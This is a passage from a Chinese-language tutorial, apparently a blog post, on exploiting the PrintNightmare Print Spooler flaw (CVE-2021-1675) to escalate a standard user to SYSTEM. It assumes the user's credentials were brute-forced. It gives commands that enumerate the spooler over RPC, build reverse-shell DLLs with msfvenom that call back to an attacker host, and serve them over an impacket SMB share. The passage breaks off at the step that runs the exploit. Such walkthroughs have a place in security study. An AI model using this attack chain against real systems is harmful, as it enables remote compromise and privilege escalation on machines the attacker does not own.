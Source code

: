 使用此 RCE 漏洞的**前提条件**是：需要一个标准用户的凭证（密码或 NTLM hash） 。尽管这也被视作是 RCE 漏洞，但它其实主要还是一个权限提升漏洞，因为需要提供标准用户凭证，并且该标准用户的权限最终会被提升到 SYSTEM 级别。

> 在此示例中，假设我们通过暴力攻击获取到了用户 cmarko 的凭据。

#### **

1.1、远程枚举 Print Spooler 服务

**

要扫描目标计算机以查找 print spooler 服务是否正在运行，请使用以下命令：

    rpcdump.py @172.16.1.50 | egrep 'MS-RPRN|MS-PAR'
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173823664-579993839.png)

如果输出有结果，那么它应该是脆弱的！

现在我们知道打印服务正在目标机器上运行着，此时，还需要使用 msfvenom 制作一个恶意 DLL 以供 CVE-2021-1675.py 使用。

#### **

1.2、行刑前的准备

**

由于没有好的方法能够让我们远程对目标机器进行 100% 的指纹识别，以确定操作系统版本和架构。因此我们可以为这个漏洞同时制作 64 位和 32 位 DLL。这样，如果其中一个不起作用，我们就可以测试另一个。

由于目标很有可能是 64 位的架构，因此首先使用以下命令创建 64 位的 DLL：

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x64 --platform Windows -f dll -o nightmare64.dll
    

接着制作一个 32 位的 DLL，为 64 位 DLL 失败时做好准备：

    msfvenom -p windows/shell_reverse_tcp LHOST=172.16.1.30 LPORT=443 -a x86 --platform Windows -f dll -o nightmare86.dll
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824046-175763318.png)

接下来，我们把两个 DLL 都放在同一个目录中，然后为此目录设置 SMB 共享，可使用以下命令：

    impacket-smbserver share $(pwd) -smb2support
    

![](https://img2024.cnblogs.com/blog/1503193/202503/1503193-20250305173824125-1159154478.png)

这会将共享文件夹命名为 'share'，这意味着我们的 DLL 可以以 `\\IP\share\nightmare64.dll`这种方式访问。

一切准备就绪，我们就可以开始下面介绍的利用操作了。

#### **

1.3、利用 CVE-2021-1675.py

**
